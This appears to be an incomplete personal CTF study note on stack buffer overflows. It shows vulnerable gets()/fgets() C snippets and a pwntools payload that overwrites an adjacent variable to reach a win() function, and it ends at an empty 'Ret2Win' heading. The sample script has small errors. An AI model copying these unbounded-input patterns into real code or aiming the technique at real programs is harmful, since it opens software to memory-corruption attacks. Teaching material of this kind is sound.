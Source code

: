 # Stack Overflow
## Identification
We can know there is buffer or stack overflow vulnerabilities when a input function without limit or the limit is exceed the buffer capacity. 
Example:
```
   char buff[50]
   gets(buff)     // gets function will take input without limit until reach null terminator
```

or with limit with `fgets()`
```
    char buff[50]
    fgets(buff, 100, stdin) // fgets take input 100 char but the buffer capacity only 50 char
```

## Exploitation and Vulnerabilities
### Variables Overwrites (idk the real name)
    This one the most simple one. If you can see there is two variables next each other and one of them is the buffer and the other will compared later. 
    The example of the source code are like this
    ```
        int cmp;
        char buff[20];
        gets(buff);
        if(cmp == 0xCAFEF00D)
        {
            win();
        }
    ```
    You can see on that code. We need to change the cmp value to `0xCAFEF00D` so that we can call win function. We can send it using python code with `pwntools` module or we can inject it with pipe directly.
    We know the buffer capacity is 20, then we need fill the buffer first then input desired value for the `cmp`.
    so the payload will go like this
    `b'AAAAAAAAAAAAAAAAAAAA\x0D\xF0\xFE\xCA'`
    the reason for the payload is reversed because the memory stores value with little-endian encoding and the reason for we store it `\x0D` because we input it as char but there is no readable char representation for it so we use byte string to input char based on its hex value.
    Payload
    ```
    p = process('./var')

    payload = b'A' * 20   # Padding
    payload += b'\x0D\xF0\xFE\xCA' # Desired value
    # OR We can use
    payload += p64(0xCAFEF00D) # or p32 for x86 architecture

    p.sendline(payload)
    p.interactve()
    ```
    `p64` or `p32` function is used for convert integer to 8 bytes or 4 bytes little-endian encoding or pack the integer based on system architecture

### Ret2Win

